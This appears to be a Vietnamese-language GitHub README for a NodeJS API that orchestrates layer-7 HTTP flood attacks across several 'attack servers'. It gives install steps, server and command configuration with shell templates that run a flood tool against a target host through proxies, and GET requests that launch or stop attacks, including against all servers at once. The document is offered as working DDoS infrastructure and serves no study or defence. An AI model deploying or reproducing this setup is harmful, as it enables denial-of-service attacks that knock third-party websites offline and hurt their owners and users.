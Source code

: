 <h2>API NodeJS cho các cuộc tấn công layer 7</h2>

<h4>API này rất an toàn và nhanh (gấp đôi thời gian ping giữa API và chương trình phụ trợ</h4>
<h4>tức là ping 60 mili giây, sẽ chỉ mất 120 mili giây để khởi chạy cuộc tấn công</h4>


<h1>Cài đặt:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo yum -y install nodejs
npm i express
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "alpha": {
        "name": "alpha",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "beta",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./http ${host} proxies.txt ${time}",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./http ${host} proxies.txt ${time}",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```js
const api_port = 8888; //API Port
const socket_token = "SOCKET_TOKEN"; // TCP Socket token, use random numbers/letters
const api_key = "API_KEY"; // your API Key
const domain_lock = false; // lock api to only be used from a specific domain
const api_domain = 'example.com'; // your API domain (if domain_lock is set to true)
```

<h3>Update socket.js:</h3><br>

```js
const socket_port = 3000;
const socket_token = "SOCKET_TOKEN";
const allowed_ips = ['1.1.1.1'];
```

## Sau đó, tải `socket.js` lên máy chủ tấn công và tải `api.js` `servers.json` và `commands.json` lên máy chủ API


### Proxy đảo ngược

Bạn nên tạo proxy ngược bằng Nginx để sử dụng API của mình:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:3000/api/attack;
    }
}
```

Thay thế `'http://backend:3000/api/attack'` bằng URL máy chủ API của bạn

### Sử dụng API

Gửi yêu cầu GET tới API bằng các trường bắt buộc

GET `https://api.yourdomain.com/api/attack?host=https://website.com&time=120&method=HTTPGET&server=alpha`

Bạn có thể đặt `&server=all` để khởi chạy tới tất cả các máy chủ

Bạn có thể ngăn chặn các cuộc tấn công bằng cách gửi yêu cầu GET tới API sử dụng `&method=stop`

GET `https://api.yourdomain.com/api/attack?host=https://website.com&time=120&method=stop&server=alpha`

